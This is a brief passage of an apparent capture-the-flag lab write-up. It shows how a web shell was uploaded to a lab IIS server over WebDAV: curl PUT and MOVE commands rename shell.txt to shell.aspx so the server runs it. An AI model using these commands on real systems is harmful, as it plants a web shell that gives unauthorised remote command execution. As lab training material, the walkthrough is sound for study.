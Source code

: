 

from nmap scan,  MOVE method is enable. Try move txt to aspx.

```bash
curl -X MOVE --header "Destination: /cmdasp.aspx" http://10.129.118.142/cmdasp.txt
```

![image-20220924231918553](./images/image-20220924231918553.png)

change name to shell.txt , shell.aspx,  works fine, wired.

```bash
curl http://10.129.95.234 --upload-file shell.txt
curl -X MOVE --header "Destination: /shell.aspx" http://10.129.95.234/shell.txt
```

![image-20220924232030678](./images/image-20220924232030678.png)
